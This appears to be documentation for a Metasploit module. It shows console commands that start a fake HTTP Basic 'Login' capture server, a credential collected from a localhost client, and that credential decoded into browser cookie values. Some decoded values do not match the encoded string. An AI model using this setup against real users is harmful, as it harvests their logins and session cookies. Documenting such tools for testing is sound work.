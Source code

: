 Sever:

```
msf > use auxiliary/server/capture/http_basic 
msf auxiliary(server/capture/http_basic) > set uripath '/'
uripath => /
msf auxiliary(server/capture/http_basic) > set REALM "Login"
REALM => Login
msf auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(server/capture/http_basic) > 
[*] Using URL: http://0.0.0.0:80/
[*] Local IP: http://192.168.2.117:80/
[*] Server started.
[*] Sending 401 to client 127.0.0.1
[+] 127.0.0.1 - Credential collected: "h00die:R1VDPUFRRUJBUUZicVNGY2owSWVBQVJuJnM9QVFBQUFFUmFpakN4Jmc9VzZmYkdROyB1Y3M9bG5jdD0xNTM3NzI3MjQ4OyBjbXA9dD0xNTQxNDY4ODQ1Jmo9MDsgZmxhc2hfZW5hYmxlZD0wOyBhcGVhZj10ZC1hcHBsZXQtc3RyZWFtPSU3QiUyMnRtcGwlMjIlM0ElMjJpdGVtcyUyMiUyQyUyMmx2JTIyJTNBMTU0MTQ3MDY0NjI4OCU3RDsgSFA9MTsgQj1jN2tvYTYxZDY5dHBzJmI9MyZzPTVy" => /
```

Decoding the cookie:

```
msf auxiliary(server/capture/http_basic) > irb
[*] Starting IRB shell...
[*] You are in auxiliary/server/capture/http_basic

>> Base64.decode64('R1VDPUFRRUJBUUZicVNGY2owSWVBQVJuJnM9QVFBQUFFUmFpakN4Jmc9VzZmYkdROyB1Y3M9bG5jdD0xNTM3NzI3MjQ4OyBjbXA9dD0xNTQxNDY4ODQ1Jmo9MDsgZmxhc2hfZW5hYmxlZD0wOyBhcGVhZj10ZC1hcHBsZXQtc3RyZWFtPSU3QiUyMnRtcGwlMjIlM0ElMjJpdGVtcyUyMiUyQyUyMmx2JTIyJTNBMTU0MTQ3MDY0NjI4OCU3RDsgSFA9MTsgQj1jN2tvYTYxZDY5dHBzJmI9MyZzPTVy')
=> "GUC=AQEBAAFbqSFcj0IeBARn&s=AQADAERaieCx&g=W2fb9Q; ucs=lnct=1537714242; cmp=t=1247468145&j=0; flash_enabled=0; apeaf=td-applet-stream=%7B%22tmpl%22%3A%22items%22%2C%22lv%22%3A1541470698788%7D; HP=1; B=c7koa55d69tbs&b=3&s=5r"
```
